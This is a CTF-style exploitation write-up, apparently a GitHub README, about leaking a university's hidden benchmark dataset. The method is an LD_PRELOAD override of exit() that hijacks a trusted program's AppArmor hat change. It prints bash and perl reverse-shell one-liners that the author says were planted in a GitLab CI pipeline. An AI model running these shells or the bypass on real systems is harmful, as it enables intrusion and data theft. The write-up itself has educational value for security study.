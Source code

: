 # Abstract

**Extracting secret data protected by an AppArmor profile by injecting a custom library function with `LD_PRELOAD`.**


This is a TUM internal exploit, but I'm still publishing this writeup for educational purposes, as I consider both the security set-up and the exploitation strategy interesting.

<img src="img/AppArmor.png" alt="AppArmor" width="200"/>

[AppArmor](https://www.apparmor.net/) is a Linux kernel security module that offers *per-program* security policies.
Programs are identified by **path**. Authorized programs can switch between different security policies at runtime.


## Background
The set-up can roughly be explained as follows:

The Students have to write a highly optimized C++ program that can parse multiple gigabytes of data in just a few milliseconds (by using SIMD/AVX instructions).
They push their source code to a GitLab instance, which then builds and tests their solution against a hidden dataset, so that the students can not cheat by hardcoding the answer.
The only piece of information they get back is whether their submission was a success or failure.
If their submission is fast enough, they get a grade bonus for the exam.

If one were able to leak the test dataset, one could either hard-code an answer, or optimize ones submission against the test dataset, claiming pole position on the leaderboard.

As the students are able to submit arbitrary code, a special solution was devised to keep them from leaking the hidden dataset:
1. The student program is compiled and uploaded to the test server. In this case the test server is an actual physical machine, so that benchmark results are reported accurately. It offers access to an *unprivileged* user account, that is not allowed to read the test dataset, but can otherwise freely use the system.

2. A special, *trusted* `measure` program is accessible to the unprivileged user. The `measure` program can only be read or executed, but not modified.
It performs the following three crucial functions:
    1. It uses AppArmor to [change the active security profile](https://man.archlinux.org/man/aa_change_hat.2.en). The new security profile is allowed to access the test dataset, but not allowed to do any kind of I/O. Among other things, it blocks file system access, network operations and the stdout file descriptor.
    2. It logs the current system time, executes the untrusted user program, redirects its output into a buffer and logs the current time again, once the user program returns or times out.
    3. It swaps the security profile back to the unprivileged profile, compares the logged buffer content with the expected answer, and, if correct, uploads the time required by the user program to generate the answer to the leaderboard.
    It also prints feedback (the measured time required and whether the answer was correct) to stdout.

    
## Exploitation

### 1. Backdooring the GitLab CI/CD pipeline

This is not strictly necessary (and not exactly difficult since we control the GitLab `.gitlab-ci.yml`), but a reverse shell makes it much easier to inspect the system and debug our exploitation efforts on the spot, instead of having to wait for the entire CI/CD pipeline to run through after every change.

A quick reverse shell should be in the repertoire of every hacker.
My personal favorite being a simple:
```bash
sh -i >& /dev/tcp/target_address/target_port 0>&1
```
or alternatively with perl:
```perl
perl -e 'use Socket;$i="target_address";$p=target_port;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
in case the first one is making problems.
You'll be surprised by how many systems and even minimalist dev-containers ship with perl installed.

In any case, inserting this into the deployment script leaves us with a simple, but functional reverse shell.

### 2. Inspecting the target program
Let us take a quick look at the Ghidra disassembler output of relevant section of the `measure` program:
![measure](img/measure.png)
Line `92` swaps into the privileged profile. Line `129` swaps out of it.\
Line `122` executes the untrusted program.

The problem is that we can not simply call [`aa_change_hat()`](https://man.archlinux.org/man/aa_change_hat.2.en) ourselves.
The [AppArmor](https://www.apparmor.net/) kernel security module checks the binary origin path of the process executing the respective syscall.
If we were to call this function in our untrusted program (or any other program placed on the target machine), the security profile change would be *denied*. Only a process with the origin binary `/data/delivery/measure` (the path of the trusted measure program) may perform the hat change.

### 3. Bypassing AppArmor protection

How can we *become* the `measure` program?\
We can not overwrite or modify its binary and we can not access its memory at runtime.

We *do* control the *context* in which it is launched though.
Specifically, the **environmental variables** present at its launch.

An environmental variable with useful effects for our cause is the `LD_PRELOAD` variable.
It instructs the [dynamic linker](https://linux.die.net/man/8/ld-linux) to link a dynamic library from a specified path into any program that is launched while `LD_PRELOAD` is in context.

The hereby linked library **takes precedent** over any dynamic library that would *usually* be linked into the target program.

In our case, this allows us to supply the `measure` program with a custom (and very excellent) implementation of the `libc` [`exit()`](https://www.man7.org/linux/man-pages/man3/exit.3.html) function:
[![solve](img/solve.png)](leak.cpp)

Instead of exiting the program as planned, this calls the `aa_change_hat()` function.\
This works, because we are now part of the trusted `measure` process context, and therefore executing from the same source binary path.

After changing security profile, we are allowed to read the content of the secret `/opt/tpch/sf1/customer1.tbl` dataset.
As we are not allowed to print while in this profile, we have to save its content to an internal buffer.
We then swap the back the security profile and print to `stderr`, successfully leaking the secret dataset.
